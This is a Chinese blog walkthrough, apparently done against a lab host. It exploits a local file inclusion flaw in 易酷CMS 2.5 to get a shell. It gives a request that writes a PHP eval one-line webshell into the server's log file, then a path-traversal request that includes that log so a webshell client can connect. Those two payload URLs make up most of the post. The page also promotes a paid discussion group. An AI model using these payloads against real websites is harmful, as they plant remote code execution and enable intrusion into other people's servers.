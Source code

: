 易酷CMS是一款影片播放CMS。该CMS2.5版本存在本地文件包含漏洞。我们可以利用这个漏洞，让其包含日志文件，然后再利用报错信息将一句话[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)写入日志中。然后利用文件包含漏洞包含该日志文件，再用菜刀连接拿shell。

渗透之前的操作，比如先用后台扫描工具，扫描得到该网站的后台目录结构，才更好的进行后面的操作。

我们通过访问该url，将一句话木马写入日志文件中

[http://192.168.10.22/index.php?s=my/show/id/{~eval($\_POST\[x\])}](http://192.168.10.22/index.php?s=my/show/id/%7B~eval%28$_POST%5Bx%5D%29%7D "http://192.168.10.22/index.php?s=my/show/id/{~eval($_POST[x])}")

![](https://img-blog.csdnimg.cn/20181128192246673.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

该日志是以时间日期命名的，用菜刀连接该日志文件，得到shell

[http://192.168.10.22/index.php?s=my/show/id/\\..\\temp\\logs\\18\_11\_28.log](http://192.168.10.22/index.php?s=my/show/id/%5C..%5Ctemp%5Clogs%5C18_11_28.log "http://192.168.10.22/index.php?s=my/show/id/\..\temp\logs\18_11_28.log")

![](https://img-blog.csdnimg.cn/20181128192849728.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[文件包含漏洞](https://blog.csdn.net/qq_36119192/article/details/82823685 "文件包含漏洞")

                  [一句话木马提权](https://blog.csdn.net/qq_36119192/article/details/84562454 "一句话木马提权")